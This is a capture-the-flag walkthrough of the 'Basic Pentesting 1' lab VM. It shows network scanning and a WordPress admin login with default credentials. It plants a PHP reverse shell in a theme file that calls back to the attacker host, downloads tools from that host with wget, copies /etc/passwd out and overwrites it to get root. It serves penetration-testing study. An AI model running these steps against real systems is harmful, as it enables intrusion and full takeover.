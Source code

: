 # Basic Pentesting 1

### Find own IP/Network

    ifconfig

        >eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.30.131  netmask 255.255.255.0  broadcast 192.168.30.255

### Scan Network


    nmap 192.168.30.0/24
    
>Nmap scan report for 192.168.30.128
Host is up (0.00072s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:0C:29:04:64:FF (VMware)

    
### Add host to hosts file for convenience

    echo 192.168.30.128 vtcsec >> /etc/hosts
    
    
### Enumerate HTTP

    nmap --script=http-enum vtcsec
  
  
  
>Nmap scan report for vtcsec (192.168.30.128)
Host is up (0.00020s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
| http-enum: 
|_  /secret/: Potentially interesting folder
MAC Address: 00:0C:29:04:64:FF (VMware)

### The wordpress site

Navigate to:
    
    vtcsec/secret
    
This is found to be a wordpress site. Try the default login page wp-login.php to see if it works

    vtcsec/secret/wp-login.php
    
 Login Page Found

Test Default Password

    Login: admin
    Pass: admin
    

### Upload Reverse shell script

Check themes, what is currently active?

    Appearance > Themes
    
Edit a 404.php page

    Appearance > editor > (select a non active theme. here I use twentysixteen) > 404 template(404.php)
    
Copy and paste Pentestmonkey PHP Reverse Shell script. (Don't forget to set the local port and ip! Here I use port 7777)
    
    (Modify this stuff)
    $ip = '192.168.30.131'; //CHANGE THIS
    $port = '7777'; //CHANGE THIS


### Set up listener

    nc -lvp 7777
    
### Open page and load the 404.php

    (open in browser) vtcsec/secret/wp-content/themes/twentysixteen/404.php
    
    or
    
    curl vtcsec/secret/wp-content/themes/twentysixteen/404.php
    
Reverse shell received
    
>root@kali:~# nc -lvp 7777
listening on [any] 7777 ...
connect to [192.168.30.131] from vtcsec [192.168.30.128] 57100
Linux vtcsec 4.10.0-28-generic #32~16.04.2-Ubuntu SMP Thu Jul 20 10:19:48 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 05:37:43 up 50 min,  0 users,  load average: 0.00, 0.00, 0.02
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
    
    
### Privilege Escalation

Upload an escalation checker script. LinEnum.sh used here

        cd <folder with script>
        python -m SimpleHTTPServer 1234
        
On reverse shell, navigate to a world writable folder and download

        cd /tmp
        wget 192.168.30.131:1234/LinEnum.sh
        
>$ wget 192.168.30.131:1234/unix-privesc-check
--2018-12-11 06:22:18--  http://192.168.30.131:1234/unix-privesc-check
Connecting to 192.168.30.131:1234... connected.
HTTP request sent, awaiting response... 200 OK
Length: 49721 (49K) [application/octet-stream]
Saving to: 'unix-privesc-check'

     0K .......... .......... .......... .......... ........  100% 15.2M=0.003s

2018-12-11 06:22:18 (15.2 MB/s) - 'unix-privesc-check' saved [49721/49721]



### Run Script

        chmod +x unix-*
        (because i'm lazy af)
        ./unix-* standard | grep WARNING
        
Something interesting is found

>$ ./unix-* standard | grep WARNING                               
passwd: Permission denied.
Search the output below for the word 'WARNING'.  If you don't see it then
[UPC004] WARNING: /etc/passwd is a critical config file. World write is set for /etc/passwd
[UPC004] WARNING: /etc/passwd can be written to World write is set for /etc/passwd

### Changing passwords

Transfer file through apache folder since port 80 is already open

        cp /etc/passwd /var/www/html/
        
Go into an easily accessible folder on attacker machine(i used desktop) and download the passwd file

        cd ~/Desktop
        wget vtcsec/passwd

Edit the password

In any text editor of your choice, replace the 'x' inside the passwd file with the following for 'root' and 'marlinspike':

        $6$bxwJfzor$MUhUWO0MUgdkWfPPEydqgZpm.YtPMI/gaM4lVqhP21LFNWmSJ821kvJnIyoODYtBh.SF9aR7ciQBRCcw5bgjX0
        (This basically means 'test')
        
 Close the previous python SimpleHTTPServer if it's still running. Run it again from the folder where the modifled passwd file is.
 
        cd ~/Desktop
        python -m SimpleHTTPServer 1234
        
 On the reverse shell, replace the /etc/passwd file with the modified one. use wget -O to output/overwrite
 
        wget 192.168.30.131:1234/passwd -O /etc/passwd
        
>ERROR: could not open HSTS store. HSTS will be disabled.
--2018-12-11 08:23:21--  http://192.168.30.131:1234/passwd
Connecting to 192.168.30.131:1234... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2558 (2.5K) [application/octet-stream]
Saving to: '/etc/passwd'

   0K ..                                                    100%  195M=0s

utime(/etc/passwd): Operation not permitted
2018-12-11 08:23:21 (195 MB/s) - '/etc/passwd' saved [2558/2558]


### Logging in

Try to log in with the reverse shell
    
        $ su root
        su: must be run from a terminal

Annoying.. Open bash then

        $ python -c 'import pty;pty.spawn("/bin/bash")'
        www-data@vtcsec:/$ 

Switch user again. Don't forget we also changed marlinspike's password to 'test', we can use that account as well

        www-data@vtcsec:/$ su root
        su root
        Password: test
        root@vtcsec:/var/www/html# whoami
        root

